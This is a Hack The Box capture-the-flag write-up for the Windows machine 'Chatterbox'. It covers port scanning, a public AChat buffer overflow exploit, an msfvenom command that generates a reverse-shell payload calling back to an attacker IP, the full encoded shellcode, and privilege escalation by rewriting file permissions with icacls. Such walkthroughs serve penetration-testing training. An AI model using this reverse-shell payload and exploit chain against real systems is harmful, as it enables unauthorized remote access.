






# HTB - Chatterbox

#### Ip: 10.10.10.74
#### Name: Chatterbox
#### Rating: Medium

----------------------------------------------------------------------



### Enumeration

Lets begin enumerating this machine by scanning all TCP ports:

```text
┌──(ryan㉿kali)-[~/HTB/Chatterbox]
└─$ sudo nmap -p- 10.10.10.74 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 14:05 CDT
Nmap scan report for 10.10.10.74
Host is up (0.071s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
9255/tcp  open  mon
9256/tcp  open  unknown
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 73.14 seconds
```

Lets further enumerate these open ports by using the `-sC` and `-sV` flags to use default scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Chatterbox]
└─$ sudo nmap -sC -sV -T4 10.10.10.74 -p 135,139,445,9255,9256,49152,49153,49154,49155,49156,49157
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 14:08 CDT
Nmap scan report for 10.10.10.74
Host is up (0.069s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp  open  achat        AChat chat system
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h20m01s, deviation: 2h18m37s, median: 4h59m59s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-05-04T00:09:34
|_  start_date: 2023-05-04T00:02:29
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-05-03T20:09:37-04:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.92 seconds
```

After trying to enumerate the SMB ports with no luck, lets move on to http on ports 9255/9256, which appears to be hosting AChat chat system. 

Doing a quick SearchSploit search, we find some potentially interesting buffer overflow attacks against the service.



Ok cool, looks like there is a public exploit in Python as well as a Metasploit module here. Looking at the Python exploit at https://www.exploit-db.com/exploits/36025 we see a buffer overflow attack, with the shellcode presently set to open up calc.exe as a proof of concept.

### Exploitation

Lets generate our own shellcode using msfvenom, and see if we can get a working reverse shell from this exploit.

```text
┌──(ryan㉿kali)-[~/HTB/Chatterbox]
└─$ msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 774 (iteration=0)
x86/unicode_mixed chosen with final size 774
Payload size: 774 bytes
Final size of python file: 3822 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51"
buf += b"\x41\x44\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x51\x41\x49\x41\x68"
buf += b"\x41\x41\x41\x5a\x31\x41\x49\x41\x49\x41\x4a\x31"
buf += b"\x31\x41\x49\x41\x49\x41\x42\x41\x42\x41\x42\x51"
buf += b"\x49\x31\x41\x49\x51\x49\x41\x49\x51\x49\x31\x31"
buf += b"\x31\x41\x49\x41\x4a\x51\x59\x41\x5a\x42\x41\x42"
buf += b"\x41\x42\x41\x42\x41\x42\x6b\x4d\x41\x47\x42\x39"
buf += b"\x75\x34\x4a\x42\x39\x6c\x5a\x48\x54\x42\x69\x70"
buf += b"\x49\x70\x6b\x50\x43\x30\x55\x39\x4b\x35\x6c\x71"
buf += b"\x37\x50\x30\x64\x72\x6b\x62\x30\x6e\x50\x74\x4b"
buf += b"\x50\x52\x6a\x6c\x32\x6b\x4e\x72\x4b\x64\x72\x6b"
buf += b"\x51\x62\x6f\x38\x5a\x6f\x58\x37\x4f\x5a\x6f\x36"
buf += b"\x6c\x71\x6b\x4f\x74\x6c\x6d\x6c\x43\x31\x53\x4c"
buf += b"\x7a\x62\x4c\x6c\x6f\x30\x75\x71\x46\x6f\x7a\x6d"
buf += b"\x7a\x61\x48\x47\x69\x52\x78\x72\x4f\x62\x42\x37"
buf += b"\x34\x4b\x51\x42\x5a\x70\x32\x6b\x6d\x7a\x4d\x6c"
buf += b"\x52\x6b\x30\x4c\x4e\x31\x32\x58\x67\x73\x6d\x78"
buf += b"\x6a\x61\x66\x71\x4f\x61\x62\x6b\x30\x59\x4d\x50"
buf += b"\x79\x71\x48\x53\x74\x4b\x61\x39\x4b\x68\x67\x73"
buf += b"\x4d\x6a\x4d\x79\x54\x4b\x6f\x44\x42\x6b\x49\x71"
buf += b"\x58\x56\x6d\x61\x39\x6f\x76\x4c\x56\x61\x78\x4f"
buf += b"\x6a\x6d\x69\x71\x76\x67\x6e\x58\x67\x70\x30\x75"
buf += b"\x6a\x56\x69\x73\x33\x4d\x69\x68\x4f\x4b\x33\x4d"
buf += b"\x6d\x54\x71\x65\x37\x74\x72\x38\x44\x4b\x4f\x68"
buf += b"\x6e\x44\x4b\x51\x58\x53\x33\x36\x44\x4b\x4c\x4c"
buf += b"\x70\x4b\x42\x6b\x70\x58\x4b\x6c\x69\x71\x77\x63"
buf += b"\x64\x4b\x79\x74\x32\x6b\x4b\x51\x46\x70\x75\x39"
buf += b"\x61\x34\x4d\x54\x6b\x74\x31\x4b\x51\x4b\x61\x51"
buf += b"\x31\x49\x30\x5a\x52\x31\x39\x6f\x37\x70\x31\x4f"
buf += b"\x4f\x6f\x6f\x6a\x44\x4b\x6a\x72\x6a\x4b\x32\x6d"
buf += b"\x51\x4d\x63\x38\x4f\x43\x30\x32\x79\x70\x6d\x30"
buf += b"\x73\x38\x72\x57\x54\x33\x4e\x52\x61\x4f\x61\x44"
buf += b"\x72\x48\x50\x4c\x44\x37\x6d\x56\x4a\x67\x69\x6f"
buf += b"\x59\x45\x68\x38\x76\x30\x6d\x31\x69\x70\x49\x70"
buf += b"\x6f\x39\x39\x34\x6f\x64\x32\x30\x42\x48\x6b\x79"
buf += b"\x53\x50\x50\x6b\x4d\x30\x6b\x4f\x48\x55\x6e\x70"
buf += b"\x52\x30\x32\x30\x70\x50\x4d\x70\x52\x30\x6f\x50"
buf += b"\x42\x30\x61\x58\x49\x5a\x6c\x4f\x39\x4f\x57\x70"
buf += b"\x79\x6f\x56\x75\x33\x67\x30\x6a\x79\x75\x50\x68"
buf += b"\x39\x7a\x6c\x4a\x7a\x6e\x79\x79\x71\x58\x5a\x62"
buf += b"\x79\x70\x6d\x31\x55\x6b\x74\x49\x57\x76\x52\x4a"
buf += b"\x6a\x70\x42\x36\x52\x37\x61\x58\x63\x69\x54\x65"
buf += b"\x33\x44\x4f\x71\x59\x6f\x5a\x35\x52\x65\x45\x70"
buf += b"\x30\x74\x4c\x4c\x39\x6f\x6e\x6e\x7a\x68\x54\x35"
buf += b"\x4a\x4c\x30\x68\x4c\x30\x74\x75\x73\x72\x71\x46"
buf += b"\x69\x6f\x39\x45\x71\x58\x72\x43\x62\x4d\x4f\x74"
buf += b"\x6d\x30\x64\x49\x69\x53\x6e\x77\x51\x47\x42\x37"
buf += b"\x6d\x61\x49\x66\x72\x4a\x5a\x72\x6e\x79\x62\x36"
buf += b"\x58\x62\x69\x6d\x50\x66\x77\x57\x31\x34\x6b\x74"
buf += b"\x4d\x6c\x49\x71\x7a\x61\x44\x4d\x6f\x54\x6e\x44"
buf += b"\x4c\x50\x38\x46\x79\x70\x6e\x64\x61\x44\x72\x30"
buf += b"\x61\x46\x71\x46\x32\x36\x6e\x66\x50\x56\x4e\x6e"
buf += b"\x42\x36\x72\x36\x6f\x63\x42\x36\x31\x58\x64\x39"
buf += b"\x58\x4c\x4d\x6f\x62\x66\x49\x6f\x6a\x35\x42\x69"
buf += b"\x77\x70\x30\x4e\x71\x46\x71\x36\x39\x6f\x4c\x70"
buf += b"\x71\x58\x49\x78\x32\x67\x6d\x4d\x51\x50\x49\x6f"
buf += b"\x39\x45\x55\x6b\x4c\x30\x44\x75\x44\x62\x51\x46"
buf += b"\x72\x48\x47\x36\x56\x35\x57\x4d\x45\x4d\x79\x6f"
buf += b"\x39\x45\x4f\x4c\x4c\x46\x33\x4c\x4a\x6a\x35\x30"
buf += b"\x6b\x4b\x4b\x30\x33\x45\x6a\x65\x45\x6b\x6f\x57"
buf += b"\x4a\x73\x74\x32\x30\x6f\x32\x4a\x69\x70\x6e\x73"
buf += b"\x59\x6f\x48\x55\x41\x41"
```

Cool, so after copying this shellcode into the exploit and changing the target address:



We should be all set to set up a listener and to launch the exploit:

```text
┌──(ryan㉿kali)-[~/HTB/Chatterbox]
└─$ python2 Achat-bof.py
---->{P00F}!
```

Where we get a shell back as Alfred:



From here lets grab the user.txt flag:



### Privilege Escalation

So interestingly on this box, user Alfred as permissions to access the Administrator's files, but not to read them:

```text
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 502F-F304

 Directory of C:\Users\Administrator\Desktop

12/10/2017  07:50 PM    <DIR>          .
12/10/2017  07:50 PM    <DIR>          ..
05/03/2023  08:02 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,344,949,248 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
Access is denied.
```

This is peculiar, and indicates we have at least some kind of elevated permissions. Using icacls, we can see we doo have read permissions to the Administrator Desktop, but not the root.txt flag.

```text
C:\Users\Administrator\Desktop>icacls Desktop
icacls Desktop
Desktop: The system cannot find the file specified.
Successfully processed 0 files; Failed processing 1 files

C:\Users\Administrator\Desktop>cd ..
cd ..

C:\Users\Administrator>icacls Desktop
icacls Desktop
Desktop NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
        CHATTERBOX\Administrator:(I)(OI)(CI)(F)
        BUILTIN\Administrators:(I)(OI)(CI)(F)
        CHATTERBOX\Alfred:(I)(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>icacls root.txt
icacls root.txt
root.txt CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files
```

Lets try giving Alfred permissions to read the root.txt file:

```text
C:\Users\Administrator\Desktop>icacls root.txt /grant alfred:F
icacls root.txt /grant alfred:F
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator\Desktop>icacls root.txt
icacls root.txt
root.txt CHATTERBOX\Alfred:(F)
         CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files
```

Nice! That worked! From here we can go ahead and read root.txt:



And that's that! This was somewhat of a tease seeing as we never actually held nt/system permissions on the machine, and this level of access wouldn't qualify for an exam like OSCP, but it was an interesting way to reach the flag nonetheless. 

Thanks for following along!

-Ryan

---------------------------------------------------------------
